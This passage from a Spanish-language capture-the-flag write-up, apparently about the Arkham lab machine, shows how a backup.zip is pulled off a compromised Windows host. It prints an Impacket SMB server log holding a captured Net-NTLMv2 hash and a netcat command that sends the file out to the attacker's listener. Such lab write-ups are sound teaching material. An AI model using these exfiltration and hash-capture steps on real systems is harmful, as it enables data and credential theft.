 Movámoslo a nuestra máquina, probando mediante una carpeta compartida con **SMB**:

```bash
❭ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Obtenemos:

```powershell
c:\Users\Alfred\Downloads\backups>copy backup.zip \\10.10.14.14\smbFolder\backup.zip
You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
        0 file(s) copied.

c:\Users\Alfred\Downloads\backups>
```

Y en el servidor **SMB** recibimos el hash [Net-NTLMv2](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) del usuario **Alfred**, pero intentando crackearlo no logramos nada :(

```bash
...
[*] Incoming connection (10.10.10.130,49707)
[*] AUTHENTICATE_MESSAGE (ARKHAM\Alfred,ARKHAM)
[*] User ARKHAM\Alfred authenticated successfully
[*] Alfred::ARKHAM:aaaaaaaa:7788c08b972d046d3204856b5e605c9c:010100000000000080a2169c763ad701bdc49d05e3f6764400000000010010007a0072006e00520070007200720041000200100062007a0069004c0049004d004e004f00030010007a0072006e00520070007200720041000400100062007a0069004c0049004d004e004f000700080080a2169c763ad70106000400020000000800300030000000000000000000000000200000501679800e3ec4fec38e468143ba78a69d3112f8176260dbae0bf0d0fce82c1d0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003400000000000000000000000000
[*] Closing down connection (10.10.10.130,49707)
...
```

Después recordamos una manera mediante **netcat**, aprovechando que ya lo subimos podemos ejecutar el proceso.

Nos ponemos en escucha y guardamos el output en un archivo llamado `backup.zip`:

```bash
❭ nc -lvp 4434 > backup.zip
listening on [any] 4434 ...
```

Y en la máquina Windows indicamos que lea el contenido del archivo `backup.zip`, espere 5 segundos como máximo y envíe el resultado a nuestro listener:

```powershell
c:\Users\Alfred\Downloads\backups>C:\\Windows\\TEMP\\nc.exe -w 5 10.10.14.14 4434 < backup.zip
```

